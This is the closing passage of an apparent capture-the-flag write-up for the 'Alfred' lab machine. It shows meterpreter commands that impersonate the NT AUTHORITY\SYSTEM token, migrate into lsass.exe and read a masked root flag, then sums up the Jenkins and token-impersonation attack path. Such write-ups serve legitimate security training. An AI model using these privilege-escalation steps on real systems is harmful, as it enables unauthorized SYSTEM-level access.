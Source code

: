 There we go, we can impersonate `NT AUTHORITY\SYSTEM` user.

```bash
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

Then we can just migrate to a process owned by `SYSTEM` and we can now read the `root.txt` flag.

```bash
meterpreter > pgrep lsass.exe
676
meterpreter > migrate 676
[*] Migrating from 2612 to 676...
[*] Migration completed successfully.
meterpreter > cat /Windows/System32/config/root.txt
dff0******8f280250f25******46b4a
```

---
## Final Thoughts

The **Alfred** machine provides a well-structured learning experience, focusing on **Jenkins exploitation** and **Windows privilege escalation**. The initial access phase requires thorough **service enumeration**, leading to the discovery of an exposed Jenkins instance. Exploitation is straightforward, emphasizing the risks of **default credentials** and **misconfigured Jenkins permissions** to execute commands remotely. Privilege escalation introduces **token impersonation**, leveraging **SeImpersonatePrivilege** to escalate to **SYSTEM**. A solid machine that reinforces core skills in **Windows exploitation** and serves as an excellent exercise for real-world scenarios.

![Desktop View](AlfredPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

